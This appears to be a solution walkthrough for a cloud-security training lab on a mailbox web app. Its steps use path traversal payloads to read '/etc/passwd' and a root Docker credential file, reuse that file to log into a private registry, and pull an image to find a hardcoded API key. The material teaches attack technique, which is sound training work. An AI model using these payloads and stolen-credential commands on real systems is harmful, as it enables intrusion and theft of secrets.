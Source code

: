 # Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.student-uniquename.cloudsec.training`

* Login to the application using `username: bob` and `password: bobmailbox`

![](images/app-login.png)

* We can see that `README.md` discloses information regarding the private registry

![](images/information-disclosure.png)


* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`

![](images/path-traversal-exploitation.png)

* Similarly we can read other sensitive files in the system and find that the system contains `root/.docker/.dockerconfigjson` with payload `qqqqq/../../root/.docker/.dockerconfigjson`

![](images/docker-config.png)

* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```

![](images/docker-registry-login.png)

* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```

![](images/pull-private-image.png)

* Inspecting the image using the docker run command

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```

![](images/source-code-hardcoded-key.png)

* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image
